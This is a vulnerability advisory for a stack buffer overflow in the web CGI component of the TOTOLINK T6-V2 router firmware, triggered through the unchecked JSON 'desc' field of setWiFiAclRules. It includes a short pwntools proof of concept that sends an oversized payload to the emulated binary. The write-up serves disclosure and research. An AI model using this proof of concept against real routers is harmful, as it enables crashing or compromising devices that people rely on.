 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_004137a4` (at address 0x4137a4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529101527838.png" alt="image-20220529101527838" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiAclRules",
    "addEffect": "1",
    "mac": "12:34:56:78",
    "desc": 'A'*0x500,
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

